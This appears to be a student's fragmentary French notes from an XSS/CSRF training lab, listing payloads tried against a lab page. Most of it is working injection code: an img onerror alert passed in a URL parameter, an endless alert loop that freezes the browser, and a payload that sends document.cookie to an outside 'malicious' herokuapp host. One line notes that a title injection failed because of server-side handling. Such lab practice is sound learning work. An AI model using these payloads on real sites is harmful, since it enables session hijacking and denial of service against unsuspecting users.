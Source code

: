 https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%27dzqjidqi.jpg%27%20onerror=alert(%27test%27)%3E%3C/img%3E

<img src='dqd.jpg' onerror= alert('xss') ></img> dans title
Le script ne fonctionne ne pas car il a été correctement géré coté serveur.
Les
<img src='zzz.jpg' onerror=while(true)alert('xss') ></img>
<img src='zzz.jpg' onerror="var addr = 'https://my-malicious-ws-maisonhaute.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img>
